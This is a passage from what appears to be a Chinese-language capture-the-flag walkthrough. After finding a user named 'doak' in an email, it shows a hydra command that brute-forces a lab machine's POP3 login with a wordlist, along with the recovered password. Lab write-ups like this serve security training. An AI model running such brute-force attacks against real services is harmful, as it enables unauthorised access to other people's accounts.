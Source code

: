 ![](images/2024-04-03-20-20-39.png)
看到了后台信息
有封邮件可以发现，里面记录了一个新的用户doak

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f  -s 55007 10.10.114.10 pop3
[55007][pop3] host: 10.10.114.10   login: doak   password: goat
```
得到新用户信息了
这个靶机用户太多了。。
